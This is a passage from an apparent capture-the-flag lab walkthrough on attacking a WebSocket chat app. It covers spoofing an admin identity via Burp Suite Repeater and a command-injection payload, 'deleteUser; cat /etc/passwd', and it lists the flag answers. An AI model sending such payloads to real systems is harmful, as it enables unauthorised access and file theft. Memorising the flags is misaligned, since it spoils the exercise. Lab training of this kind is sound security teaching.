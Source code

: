 ```javascript
  type: "message",
  content: "Admin message",
  user: "admin",
  timestamp: new Date().toISOString()
}));
```

**Using Burp Suite Repeater:**
1. Capture a normal message in WebSocket history
2. Send to Repeater
3. Modify the JSON:
```json
{
  "type": "message",
  "content": "Test admin access",
  "user": "admin",
  "timestamp": "2025-10-02T18:30:00Z"
}
```
4. Click "Send" and observe the response
5. **Flag reward:** `{WEBSOCKET_ADMIN_PRIVILEGE_ESCALATION}`

#### Step 4: Command Injection via WebSocket Messages
**Objective:** Execute system commands by injecting malicious payloads

**Using Burp Suite for Command Injection:**
1. In Repeater, modify the message type to "command"
2. Test various command injection payloads:

```json
{
  "type": "command",
  "content": "getUserList",
  "user": "admin",
  "timestamp": "2025-10-02T18:30:00Z"
}
```

**Advanced command injection:**
```json
{
  "type": "command",
  "content": "deleteUser; cat /etc/passwd",
  "user": "admin",
  "timestamp": "2025-10-02T18:30:00Z"
}
```

3. Send the payload and check the response
4. **Flag reward:** `{WEBSOCKET_COMMAND_INJECTION}`

#### Step 5: Automated WebSocket Exploitation
**Objective:** Create an automated script for WebSocket exploitation

